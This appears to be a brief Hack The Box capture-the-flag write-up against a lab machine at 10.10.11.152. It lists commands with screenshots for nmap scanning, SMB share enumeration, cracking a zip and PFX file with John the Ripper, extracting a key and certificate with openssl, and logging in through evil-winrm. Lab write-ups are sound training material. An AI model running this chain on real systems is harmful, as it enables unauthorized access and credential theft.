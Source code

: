 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.152
```
![image](https://github.com/regarmulia/HTB/assets/33616880/de39839c-7d0f-4e06-bce0-405c4fd5e9df)


```
smbclient -L \\\\10.10.11.152\\
smbclient \\\\10.10.11.152\\Shares
```
![image](https://github.com/regarmulia/HTB/assets/33616880/38dc3fff-aa4b-43ea-9708-623342572d32)


```
zip2john winrm_backup.zip > hash_zip
john hash_zip -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2fd7c3da-dd7e-4873-a74d-5cb138de68ca)

![image](https://github.com/regarmulia/HTB/assets/33616880/25e93ff2-37af-438d-8e31-0bbac933bdfb)


```
pfx2john legacyy_dev_auth.pfx > hash_pfx
john hash_pfx -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ade0c972-88c1-45ae-b2fe-482b7f8a930c)


```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/07ffcc57-6bbb-4567-ad1e-38879504d66f)


```
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
```
![image](https://github.com/regarmulia/HTB/assets/33616880/dbc9049b-bc5b-4ae5-bf13-61229ef18444)



